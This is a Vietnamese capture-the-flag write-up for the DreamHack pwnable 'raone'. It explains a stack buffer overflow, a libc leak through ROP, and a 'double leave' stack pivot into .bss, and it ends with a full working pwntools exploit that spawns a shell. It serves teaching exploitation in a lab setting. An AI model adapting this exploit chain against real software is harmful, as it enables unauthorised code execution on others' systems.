




# raone---Write-up-----DreamHack
Hướng dẫn cách giải bài raone cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 20/2/2026

## 1. Mục tiêu cần làm
Đầu tiên ta hãy xem qua các lớp bảo vệ



No PIE với No Canary là bú vội, giờ hãy đọc code của nó nào.

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[48]; // [rsp+0h] [rbp-30h] BYREF

  init(argc, argv, envp);
  puts(s);
  puts("You can RAO only once. ");
  read(0, buf, 0x40uLL);     // Cho ghi tận 64 byte
  puts(aBye);
  return 0;
}
```

Ờ thì nó chỉ có nhiêu đây thôi 🐧, các bạn mong chờ gì. Bài này no PIE nên cũng tương đối dễ, không quá khó. Code này ta thấy `buf` có 48 mà cho ghi tận 64 byte, vừa đủ để đè vào RIP. Bên cạnh đó nó cũng không có hàm win, vậy ý tưởng của mình là sẽ xài **Stack Pivot** để ghi 1 chuỗi ROPchain dài vào 1 vùng có rwx là `.bss`. Sau đó bắt nó thực thi và bùm nổ shell.

Ok bắt tay vô thực thi thôi.

## 2. Cách thực thi
Vì vùng `.bss` bài này khá lỏ nên mình sẽ vừa giải thích vừa nói ra các test mình đã thực hiện. Đầu tiên mình sẽ viết 1 ROPchain đơn giản để leak libc vì bài này không có hàm win.

Ý tưởng của mình là như vậy



Mình sẽ nhập RBP là `bss + 0x30` và RIP là `read` để khi nó chạy lệnh `read` nó sẽ ghi vào đầu bss bởi vì `read` nó sẽ ghi tại vị trí `rbp - 0x30`. Sau đó khi `read` xong nó sẽ thực thi tiếp các lệnh dưới nó ví dụ như `puts(aBye);`, `return 0`.

Lúc này vì RBP của mình vẫn là `bss + 0x30` nên khi `return 0` nó sẽ thực thi lệnh `leave, ret`. Tức là lấy RBP bỏ vào RSP. Bây giờ con trỏ ta đang ở vị trí `bss + 0x38`, nó sẽ trỏ đúng vào vị trí RBP giả là `bss - 0x8` mà ta đã gửi lúc `read` vào. Khi đó lệnh `leave, ret` nằm dưới nó sẽ lấy RBP giả đó gắn vào RSP. Và bây giờ RSP ta sẽ là `bss`, là vị trí đầu tiên ta đặt ROPchain leak libc. Mình gọi kĩ thuật này là **Double Leave**.

```Python
bss = 0x404070 + 0x800
read = 0x401211
main = 0x4011dd
leave_ret = 0x40123b
ret = 0x40101a

payload = b'A' * 48
payload += p64(bss+0x30)
payload += p64(read)

p.sendafter(b'You can RAO only once. ', payload)

pop_rdi = 0x4011db

rop_leak = p64(ret) 
rop_leak += p64(pop_rdi)
rop_leak += p64(e.got['puts'])
rop_leak += p64(e.plt['puts'])
rop_leak += p64(main)

payload1 = rop_leak
payload1 = payload1.ljust(48, b'A')
payload1 += p64(bss - 0x8)
payload1 += p64(leave_ret)

p.send(payload1)

p.recvuntil(b"Bye~~")
p.recvline()
p.recvuntil(b"Bye~~")
p.recvline()

leak = u64(p.recv(6).ljust(8, b"\x00"))
log.success(f"Puts leak: {hex(leak)}")

libc_base = leak - 0x87be0
log.success(f"Libc Base: {hex(libc_base)}")

system = libc_base + 0x58750
bin_sh = libc_base + 0x1cb42f
```

Sau khi làm xong kĩ thuật **Double Leave** này, ta đã thay thế vị trí vùng Stack thành vùng Bss rồi. Nên khi quay lại main thì vị trí ta ghi vào sẽ là Bss chứ không phải Stack nữa. ( Để có thể hiểu hơn tại sao thì có thể hỏi AI ).

Bây giờ ta chỉ cần nhập 1 ROPchain thực thi system và **Stack Pivot** về vị trí đầu mà ta đặt ROPchain là được. Vì địa chỉ đã thay đổi từ stack sang bss nên ta có thể biết được vị trí ta nhập là ở đâu ( NO PIE ).

```Python
rop_shell = p64(ret)           # Gadget 'ret' để fix alignment 16-byte
rop_shell += p64(ret)
rop_shell += p64(pop_rdi)
rop_shell += p64(bin_sh)
rop_shell += p64(system)

payload2 = rop_shell.ljust(48, b'A') 
payload2 += p64(bss - 0x8)     # Ghi đè Saved RBP để pivot
payload2 += p64(leave_ret)
```

Tại sao mình lại đặt tận 2 cái ret ? Khi mình chạy và đặt bp tại `leave, ret` của main. Mình thấy RSP nó trỏ thẳng vào `bin/sh` chứ không phải lệnh `ret` mà mình đặt ban đầu.



Sẽ có vài người nói là sao không chỉnh xuống `bss - 0x18` đi. Thì khi chỉnh xuống đó thì nó sẽ chạy lệnh `ret` và `pop rdi` nhưng có 1 vấn đề phát sinh ở đây.



Đây là vấn đề của nó, **alignment 16-byte**. Nên mình quyết định đặt thêm 1 cái `ret` nữa để căn chỉnh lại. Đó là lí do mình đặt 2 cái ret đó.

À quên tiện giải thích luôn lí do mình chọn `bss + 0x500`. Bởi vì ta đã đổi nhà cho Stack sang Bss nên ta cần 1 khu vực cực lớn có rwx để thực thi `system`. Mà các bạn biết trước `bss` nó là các vùng khác nên ta cần chọn vùng cao cao tí để khi nó kiểm tra ở đằng trước sẽ không bị gì.

Bài này đến đây là xong rồi. Cũng khá là khó vì kĩ thuật **Double Leave**. Nhưng cũng khá hay vì mình học thêm kĩ thuật mới. Hãy cho mình 1 star để có động lực viết tiếp nha. Nhân tiện cũng chúc mọi người năm mới vui vẻ, an khang thịnh vượng, vạn sự như ý, tiền vô như nước sông Đà, tiền ra nhỏ giọt như cà phê phin !!! 🐧.


## 3. Exploit
```Python
from pwn import *

p = process('./chall_patched')
#p = remote('host3.dreamhack.games', 15127)
e = ELF('./chall_patched')
libc = ELF('./libc.so.6')

bss = 0x404070 + 0x800
read = 0x401211
main = 0x4011dd
leave_ret = 0x40123b
ret = 0x40101a

payload = b'A' * 48
payload += p64(bss+0x30)
payload += p64(read)

p.sendafter(b'You can RAO only once. ', payload)

pop_rdi = 0x4011db

rop_leak = p64(ret) 
rop_leak += p64(pop_rdi)
rop_leak += p64(e.got['puts'])
rop_leak += p64(e.plt['puts'])
rop_leak += p64(main)

payload1 = rop_leak
payload1 = payload1.ljust(48, b'A')
payload1 += p64(bss - 0x8)
payload1 += p64(leave_ret)

p.send(payload1)

p.recvuntil(b"Bye~~")
p.recvline()
p.recvuntil(b"Bye~~")
p.recvline()

leak = u64(p.recv(6).ljust(8, b"\x00"))
log.success(f"Puts leak: {hex(leak)}")

libc_base = leak - 0x87be0
log.success(f"Libc Base: {hex(libc_base)}")

system = libc_base + 0x58750
bin_sh = libc_base + 0x1cb42f

rop_shell = p64(ret)           # Gadget 'ret' để fix alignment 16-byte
rop_shell += p64(ret)
rop_shell += p64(pop_rdi)
rop_shell += p64(bin_sh)
rop_shell += p64(system)

payload2 = rop_shell.ljust(48, b'A') 
payload2 += p64(bss - 0x8)     # Ghi đè Saved RBP để pivot
payload2 += p64(leave_ret)

pause()

p.sendafter(b'You can RAO only once. ', payload2)

p.interactive()
```
